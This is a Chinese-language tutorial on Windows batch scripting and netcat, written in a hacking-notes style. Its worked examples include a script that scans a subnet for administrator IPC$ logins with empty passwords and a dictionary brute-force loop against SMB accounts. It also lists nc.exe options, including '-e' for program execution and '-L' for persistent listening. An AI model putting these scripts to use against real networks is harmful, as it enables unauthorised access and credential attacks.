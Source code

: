 `telnet IP telnet`连接对方主机（同win2K），当出现bash$时就说明连接成功。
`ftp ftp`连接上某服务器（同win2K）

### 批处理命令与变量
---
#### for命令及变量 基本格式
`FOR /`参数 `%variable IN (set) DO command [command_parameters] %variable:`指定一个单一字母可替换的参数，如：`%i` ，而指定一个变量则用：`%%i` ，而调用变量时用：`%i%` ，变量是区分大小写的（%i 不等于 %I）。
批处理每次能处理的变量从`%0—%9`共10个，其中`%0`默认给批处理文件名使用，%1默认为使用此批处理时输入的的第一个值，同理：%2—%9指输入的第2-9个值；例：`net use ipipc$ pass /user:user `中`ip`为`%1`,pass为`%2` ,user为`%3`
　　`(set):`指定一个或一组文件，可使用通配符，如：`(D:user.txt)`和`(1 1 254)(1 -1 254),{“(1 1 254)”}`第一个"1"指起始值，第二个"1"指增长量，第三个"254"指结束值，即：从1到254；“(1 -1 254)”说明：即从254到1;
　　`command: ` 指定对第个文件执行的命令，如：net use命令；如要执行多个命令时，命令这间加：& 来隔开
　　`command_parameters: `为特定命令指定参数或命令行开关
　　`IN (set)`:指在`(set)`中取值；`DO command` ：指执行command
　　参数：`/L`指用增量形式{ (set)为增量形式时 }；`/F`指从文件中不断取值，直到取完为止{ (set)为文件时，如(d:pass.txt)时 }。
　　用法举例：
```CMD
@echo off
echo 用法格式：test.bat *.*.* > test.txt
for /L %%G in (1 1 254) do echo %1.%%G >>test.txt & net use \%1.%%G /user:administrator | find "命令成功完成" >>test.txt
```
 存为test.bat 说明：
 对指定的一个C类网段的254个IP依次试建立administrator密码为空的`IPC$`连接，如果成功就把该IP存在test.txt中。
　　`/L`指用增量形式（即从1-254或254-1）；输入的IP前面三位：`*.*.*`为批处理默认的 `%1`；`%%G`为变量(ip的最后一位）；& 用来隔开`echo`和`net use`这二个命令；`|` 指建立了`ipc$`后，在结果中用find查看是否有"命令成功完成"信息；%1.%%G 为完整的IP地址；(1 1 254) 指起始值，增长量，结止值。
```cmd
　　@echo off
　　echo 用法格式：ok.bat ip
　　FOR /F %%i IN (D:user.dic) DO smb.exe %1 %%i D:pass.dic 200
```
　　存为：ok.exe 说明：输入一个IP后，用字典文件`d:pass.dic`来暴解`d:user.dic`中的用户密码，直到文件中值取完为止。`%%i`为用户名；`%1`为输入的IP地址（默认）。
　
### if命令及变量 基本格式
`IF [not] errorlevel 数字 命令语句` 如果程序运行最后返回一个等于或大于指定数字的退出编码，指定条件为“真”。
例：`IF errorlevel 0 命令 `指程序执行后返回的值为0时，就值行后面的命令；`IF not errorlevel 1 命令`指程序执行最后返回的值不等于1，就执行后面的命令。
0 指发现并成功执行（真）；1 指没有发现、没执行（假）。
`IF [not] 字符串1==字符串2 命令语句` 如果指定的文本字符串匹配（即：字符串1 等于 字符串2），就执行后面的命令。
例：`if "%2%"=="4" goto start`指：如果输入的第二个变量为4时，执行后面的命令（注意：调用变量时就`%`变量名`%`并加`" "`）
`IF [not] exist 文件名 命令语句` 如果指定的文件名存在，就执行后面的命令。
例：`if not nc.exe goto end`指：如果没有发现nc.exe文件就跳到":end"标签处。
`IF [not] errorlevel 数字 命令语句 else 命令语句`或 `IF [not] 字符串1==字符串2 命令语句 else 命令语句`或` IF [not] exist 文件名 命令语句 else 命令语句 `加上：else 命令语句后指：当前面的条件不成立时，就指行else后面的命令。注意：else 必须与 if 在同一行才有效。 当有`del`命令时需把`del`命令全部内容用`< >`括起来，因为`del`命令要单独一行时才能执行，用上`< >`后就等于是单独一行了；例如：`if exist test.txt. <del test.txt.> else echo test.txt.missing `，注意命令中的`.`
### 系统外部命令
> 注：系统外部命令(均需下载相关工具)

#### 瑞士军刀：`nc.exe`
##### 参数说明：
`-h` 查看帮助信息
`-d` 后台模式
`-e prog` 程序重定向，一但连接就执行[危险]
`-i secs` 延时的间隔
`-l` 监听模式，用于入站连接
`-L` 监听模式，连接天闭后仍然继续监听，直到CTR+C
`-n IP地址`，不能用域名
`-o film`记录16进制的传输
`-p [空格] 端口` 本地端口号
`-r` 随机本地及远程端口
`-t` 使用Telnet交互方式